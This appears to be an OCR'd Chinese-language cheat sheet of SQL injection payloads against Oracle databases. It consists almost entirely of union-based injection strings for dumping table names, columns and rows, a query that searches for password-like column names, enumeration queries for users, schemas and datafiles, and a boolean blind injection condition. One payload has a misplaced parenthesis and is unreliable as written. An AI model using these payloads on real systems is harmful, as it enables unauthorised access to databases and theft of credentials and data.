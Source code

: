 union select 1,(select table_name from user_tables where rownum=1) from dual

爆第二张表

union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('第一个表')) from dual

爆第一个字段

union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名(大写)') from dual

爆第二个字段

union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名(大写)') and column_name not in ('第一个字段') from dual

爆第一行数据

union select 1,字段1||字段2||字段n from 表名 where rownum=1

注意：在oracle中，concat函数只能连接两个字符串，连接多个使用的符号是||

通过字段名找到对应表

select owner,table_name from all_tab_columns where column_name like '%PASS%';

查询第N行

select username from (select ROWNUM r,username from all_users order by username)where r=3;  查询第3行

当前用户

select user from dual;

所有用户

select username from all_users order by username;

列出数据库

select distinct owner from all_tables;

列出表名

select table_name from all_tables;

select owner,table_name from all_tables;

列出字段名

select column_name from all_tab_columns where table_name='xxx';

定位DB文件

select name from V$DATAFILE;



注：oracle的查询语句必须是完整的包含from字句，且每个字段的类型都要准确对应，一般使用null判断类型，自带虚拟表dual

### 布尔型盲注

(select length(table_name) from user_tables where rownum=1)>5#
